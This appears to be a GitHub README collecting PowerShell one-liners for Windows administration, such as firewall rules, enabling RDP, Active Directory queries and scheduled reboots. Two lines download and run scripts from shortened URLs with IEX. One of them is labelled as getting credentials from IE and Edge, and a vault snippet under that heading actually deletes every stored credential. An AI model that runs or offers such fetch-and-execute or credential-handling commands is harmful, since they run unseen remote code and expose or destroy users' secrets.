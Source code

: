 # Powershell-SysAdmin
SysAdmin stuff using the all powerful powershell. Commands that are hopefully helpful when administering a Windows environment.

## One-Liners

#### "Pong Command" - Listen for Pings. Uses WinDump.exe
```.\WinDump.exe -i 3 icmp and icmp[icmp-echoreply]=icmp-echo```

#### Enable File and Printer Sharing
```Set-NetFirewallRule -DisplayGroup "File And Printer Sharing" -Enabled True```

#### Enable ICMP
```netsh advfirewall firewall add rule name="Allow incoming ping requests IPv4" dir=in action=allow protocol=icmpv4 ```

#### Remote Manage
##### RDP
```reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f```

##### NLA
```Set-ItemProperty ‘HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\‘ -Name “UserAuthentication” -Value 1```

##### Firewall Rule
```Enable-NetFirewallRule -DisplayGroup “Remote Desktop”```

#### Bloatware Remover
```iex ((New-Object System.Net.WebClient).DownloadString('https://git.io/debloat'))```

#### Get creds from IE and Edge
```powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2K75g15’)"```
```
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime] $vault = New-Object Windows.Security.Credentials.PasswordVault $vault.RetrieveAll() | ForEach {$vault.Remove($_)}
```

#### Count Mailboxes based on office or chosen property

```Get-Mailbox | Group-Object -Property:Office | Select-Object name,count```

#### Get all PC Names according to pattern (requires activedirectory module)
``` Get-ADComputer -Filter "Name -like 'PC-*'" | Select-String -Pattern PC-\d+```

##### Get all computer names
``` Get-ADComputer -Filter * | Select-Object -ExpandProperty Name ```

#### Get current logged on user
``` query user /server:$SERVER```

#### Get logged in users for each computer
```
$COMPUTER_LIST = Get-ADComputer -Filter * | Select-Object -ExpandProperty Name

foreach ($COMPUTER in $COMPUTER_LIST) {
echo [$COMPUTER]
query user /server:$COMPUTER
echo `n
}
```

#### Get LastLogonDate/LastLogon for each computer
```
Get-ADComputer -Filter * -Properties * | Sort LastLogon | Select Name, LastLogonDate,@{Name='LastLogon';Expression={[DateTime]::FromFileTime($_.LastLogon)}}
```

### Get All Disabled Users (Excluding OU)
```Search-ADAccount -AccountDisabled -UsersOnly | Where {$_.DistinguishedName -notlike "*OU=Disabled Users,OU=USERS,DC=EXAMPLE,DC=COM"}```

#### Get LastLogon for User
```Get-ADUser -Identity “username” -Properties “LastLogonDate”```

#### Enable Hyper-V
```Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Hyper-V -All```

#### Toggle SMBv1
```Set-SmbServerConfiguration -EnableSMB1Protocol $false -Force```

#### Enable script execution 
```powershell.exe Set-ExecutionPolicy Bypass -Force```

#### Get REG key of any installed program
```
$keys = dir HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall | where { $_.GetValueNames() -contains 'DisplayName' }
$keys += dir HKLM:\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall | where { $_.GetValueNames() -contains 'DisplayName' }
 
$k = $keys | where { $_.GetValue('DisplayName') -eq 'DISPLAYNAMEHERE' }
```

#### Schedule Reboot
```
$action = New-ScheduledTaskAction -Execute 'Powershell.exe' -Argument '-NoProfile -WindowStyle Hidden -command "& {Restart-Computer -Force -wait}"'
$trigger = New-ScheduledTaskTrigger -Once -At 3am
$taskname = 'ScheduledReboot'

$params = @{
Action  = $action
Trigger = $trigger
TaskName = $taskname
}

    if(Get-ScheduledTask -TaskName $params.TaskName -EA SilentlyContinue) { 
        Set-ScheduledTask @params
     }
    else {
        Register-ScheduledTask @params
    }
```

#### WAC Management
```
Get-NetConnectionProfile | Set-NetConnectionProfile -NetworkCategory Private
Enable-PSRemoting -force
```

## Windows Defender
[Windows Defender is enough, if you harden it](https://gist.github.com/superswan/1d6ed59e75273f90a481428964be3ae5)
